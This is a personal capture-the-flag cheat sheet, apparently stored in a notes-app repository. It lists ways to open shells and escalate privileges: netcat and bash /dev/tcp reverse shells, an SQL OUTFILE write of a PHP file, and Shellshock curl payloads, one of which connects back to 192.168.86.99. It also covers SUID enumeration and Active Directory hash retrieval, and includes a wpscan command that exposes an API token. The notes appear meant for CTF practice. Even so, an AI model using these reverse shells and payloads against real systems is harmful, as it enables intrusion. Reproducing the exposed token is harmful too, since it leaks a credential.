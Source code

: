 // These are actual notes, and not relevant to the notes app.

# CTF Notes

## Opening a shell
1. Vim : !/bin/bash
2. netcat reverse shell _(see below)_
3. Bash reverse shell
4. Bash shellshock, in cgi and sometimes [ssh](https://resources.infosecinstitute.com/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/)
5. Write into files using SQL
      `SELECT '<?php phpinfo(); ?>' INTO OUTFILE '/var/www/html/phpinfo.php'`

* list binaries with SUID bit set:

      find / -perm -u=s -type f 2>/dev/null
      
* list files owned by an account:

      find / -user <username> 2>/dev/null

#### Netcat reverse shell
On the target machine shell : `nc <host> <any port> -e /bin/bash`

On your machine: `nc -lvp <port no>`

#### Bash reverse shell

      bash -i >& /dev/tcp/<ip>/4444 0>&1

### Upgrade shell to full tty
      SHELL=/bin/bash script -q /dev/null
      Ctrl-Z
      stty raw -echo
      fg
      reset
      xterm
      
#### Bash shellshock

Test if vulnerable:

    curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://<ip>/cgi-bin/test/test.cgi
To get shell: (do `nc -lvp 443` on your machine first)

    curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.86.99/443 0>&1' http://<ip>/cgi-bin/test/test.cgi

## Wordpress
      wpscan --api-token 2XiA11eRs5ryfHlZ2sX4wQuNWsdME48fpvxt9nlsnfs --url <url>


# Windows

1. Active Directory

## Active Directory

1. Username enumeration : enum4linux or  `nullinux -a`
2. GetNPUsers.py can retrieve password hashes if usernames are known and “UF_DONT_REQUIRE_PREAUTH” is set
3. With creds, can use evil-winrm if Windows Remote Management is enabled (usually port 5985)

###### TODO : What's Bloodhound (for privesc, apparently) and how do you use it?
